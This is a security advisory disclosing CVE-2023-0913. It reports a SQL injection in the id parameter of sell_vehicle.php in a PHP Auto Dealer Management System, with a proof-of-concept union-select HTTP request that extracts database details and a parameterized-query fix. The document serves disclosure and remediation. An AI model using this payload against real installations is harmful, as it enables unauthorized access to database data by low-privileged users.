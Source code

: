 # Auto Dealer Management System - SQL Injection on page sell_vehicle.php and parameter is id, application url is (?page=vehicles/sell_vehicle&id=?) with low privilege authentication

### Date: 
> 18 February 2023

### CVE Assigned:
**[CVE-2023-0913](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0913)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0913) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0913)

### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Auto Dealer Management System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> sell_vehicle.php

> On this page id parameter is vulnerable to SQL Injection Attack

> URL of the vulnerable parameter is: ?page=vehicles/sell_vehicle&id=*
### Description:
> The auto dealer management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below
+ Admin user has full access to the system 
+ Employee user has only a few menu access i.e. dashboard, car models and vehicle (available and transaction)
> Employee could perform the SQL Injection by opening sell vehicle transaction from his/her profile. Therefore, low-privileged users could able to get the access full system.
### Proof of Concept:
> Following steps are involved:
+ An employee open the sell vehicle transaction form and could perform the SQL injection with vulnerable parameter (?page=vehicles/sell_vehicle&id=1*)
### Request:
```
GET /adms/admin/?page=vehicles/sell_vehicle&id=1%27+and+false+union+select+1,2,version(),database(),5,6,user(),@@datadir,9,10,11,12,13--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c1ig2qf0q44toal7cqbqvikli5
Connection: close
```

### Response:
![image](https://user-images.githubusercontent.com/123810418/219883719-cd26586d-694e-49a7-a2ba-deca9445382f.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * from `transaction_list` where id = :id ");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading

